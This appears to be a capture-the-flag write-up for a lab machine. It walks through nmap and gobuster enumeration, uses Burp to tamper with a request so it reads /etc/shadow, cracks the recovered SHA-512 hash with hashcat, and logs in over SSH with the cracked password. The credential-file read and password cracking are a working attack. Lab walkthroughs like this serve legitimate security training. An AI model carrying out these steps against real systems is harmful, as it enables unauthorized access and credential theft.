








## **Enumeration**
>	- Using `nmap` to scan the machine for services and their versions.
```
nmap -sV 10.10.23.187
```
>	
>	- Accessing the website on port `80`.
>	- From `Note 3`, Charlie's holiday is going to be in `Hawaii`
>	- Use `gobuster dir -u http://10.10.23.187:80/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt` to search for hidden directories.
>	- Nothing interesting found.
>	- Inspect the source code, a script can be seen.
>	- Open up `burpsuite` to intercept and manipulate traffic.
>	- Changing this request to `GET` the `/etc/shadow` file.
>	- 
>	- Charlie's hash can be found `charlie:$6$oHymLspP$wTqsTmpPkz.u/CQDbheQjwwjyYoVN2rOm6CDu0KDeq8mN4pqzuna7OX.LPdDPCkPj7O9TB0rvWfCzpEkGOyhL.:18243:0:99999:7:::`
>	- Using `hashcat -m 1800 charlie-hash /usr/share/wordlists/rockyou.txt` to crack it.
>		- `-m`: specifies the hash type, which in this case `1800` which is `SHA-512`
>	- 
>	- The credentials are `charlie:password1`.
>	- Accessing the server using `ssh charlie@10.10.23.187` and the found password.
